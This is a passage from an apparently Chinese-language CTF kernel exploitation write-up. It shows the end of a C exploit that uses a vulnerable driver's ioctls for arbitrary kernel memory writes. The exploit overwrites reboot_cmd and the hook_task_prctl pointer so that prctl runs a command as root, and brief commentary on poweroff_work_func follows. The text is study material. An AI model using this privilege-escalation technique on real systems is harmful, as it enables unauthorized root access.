 ```
    ioctl(fd, 0x8008FE07, &amp;i_args);

    r_args.grow=0;
    r_args.size=0x100+1;
    ioctl(fd, 0x8008FE08,&amp;r_args);
    puts("[+] We can read and write any memory! [+]");

    size_t hook_task_prctl = 0xFFFFFFFF81EB56B8;
    size_t reboot_work_func_addr = 0xffffffff810a49a0;
    size_t reboot_cmd_addr = 0xffffffff81e48260;
    char* buff = malloc(0x1000);
    memset(buff,'x00',0x1000);
    strcpy(buff,"/rootme");
    write_mem(fd,reboot_cmd_addr, buff,strlen(buff)+1);
    memset(buff,'x00',0x1000);
    *(size_t *)buff = reboot_work_func_addr;
    write_mem(fd,hook_task_prctl,buff,8);

    if (fork()==0)`{`
        printf("OK!");
        prctl(0);
        exit(-1);
    `}`
`}`

int main(int argc,char * argv[])`{`
    init();
    if(argc &gt; 1)`{`
        if(!strcmp(argv[1],"--breakpoint"))`{`
            printf("[%p]n",exploit);
        `}`
        return 0;
    `}`
    save_user_status();

    exploit();

    printf("[+] Done!n");
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-30-153838.png)

首先这里我们意外的发现，`poweroff_work_func`函数就已经直接调用`run_cmd`函数了，也就是说，`poweroff_work_func`函数其实就是`__orderly_poweroff`函数！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-30-154235.png)
